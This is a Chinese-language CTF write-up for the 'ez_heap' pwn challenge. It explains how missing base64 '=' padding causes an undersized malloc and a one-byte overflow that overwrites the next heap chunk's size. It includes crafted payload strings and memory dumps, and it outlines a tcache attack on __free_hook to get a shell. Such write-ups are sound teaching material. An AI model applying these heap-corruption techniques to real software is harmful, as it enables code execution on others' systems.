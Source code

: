 # [](#header-3)pwn ez_heap

这个题笔者做复杂了，在中间想着后面应该有一大段流程，就控制了 bin_head 和 bin_size，实则完全不用控制. 到后期 unsorted bin free 获取 libc 基址后，再通过简单的 tcache bin attack 即可成功修改 `__free_hook`，进而 getshell.

首先笔者分析一下这个题，这个题遍历了一下 Encode/Decode 增删查函数看似没有漏洞，但是其实还是有点小漏洞的. 在用户调用 Decode 增时，会自动 malloc 一个大小为 `3 * len(用户输入) >> 2` 的 chunk，当用户输入的数据缺失后面的 `=` padding，程序依然还是可以解析不过会解析为某个奇怪的字符串.  

```py
Decode("MTIzNDU2Nw==") == b"1234567\x00"
# malloc 的空间为 (12 >> 2) * 3 = 9，不造成溢出

Decode("MTIzNDU2Nw")   == b"1234567\x10\x81"
# malloc 的空间为 (10 >> 2) * 3 = 6，溢出
```

于是乎大概就清楚了，符号后面的 `=` 省略会造成溢出漏洞. 但是这溢出的一两个字节又怎么造成危害呢？  
笔者发现了一个比较奇特的长度以及奇特的字符串 payload:  

```
MTExMTExMTExMTExMTExMTExMTExMTExMTExMTExMTExMTExMTExMTExMTExMTExMTExMTExMTE
或者全零字符串如下所示
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

其 malloc 的长度为 `(75 >> 2) * 3 == 0x36 借位--> 0x38`，而其 decode 的数据为 `0x38 * b'1' + b'\x41' == 0x39`，因此就溢出了一位，而且刚好是溢出到下一个 chunk 的 size 处，如下所示:  

```
0x55555555c290: 0x0000000000000000      0x0000000000000041
0x55555555c2a0: 0x3131313131313131      0x3131313131313131
0x55555555c2b0: 0x3131313131313131      0x3131313131313131
0x55555555c2c0: 0x3131313131313131      0x3131313131313131
0x55555555c2d0: 0x3131313131313131      0x0000000000000041 <-- 这里的 0x41 为字符串覆盖值，本来应为下一个 chunk 的 header
```

这样，就能完全覆盖下一个堆的 size 为 0x41.  
虽然听起来很局限，但是已经足够修改掉下下个堆的 size 为任意字节，如下所示在程序开始初，先对某块内存布局如下

```
0x0000000000000000    0x0000000000000041  chunk_1
0x0000000000000000    0x0000000000000000
0x0000000000000000    0x0000000000000000
0x0000000000000000    0x0000000000000000
0x0000000000000000    0x0000000000000021  chunk_2
0x0000000000000000    0x0000000000000000
0x0000000000000000    0x0000000000000021  chunk_3
0x0000000000000000    0x0000000000000000
```

通过 Decode 修改 chunk_1 的数据为 字符串 payload，覆盖掉 chunk_2 size

```
0x0000000000000000    0x0000000000000041  chunk_1
0x3131313131313131    0x3131313131313131
0x3131313131313131    0x3131313131313131
0x3131313131313131    0x3131313131313131
0x3131313131313131    0x0000000000000041  chunk_2 此刻的 size 已被修改可造成 attack
0x0000000000000000    0x0000000000000000
0x0000000000000000    0x0000000000000021  chunk_3
0x0000000000000000    0x0000000000000000
```
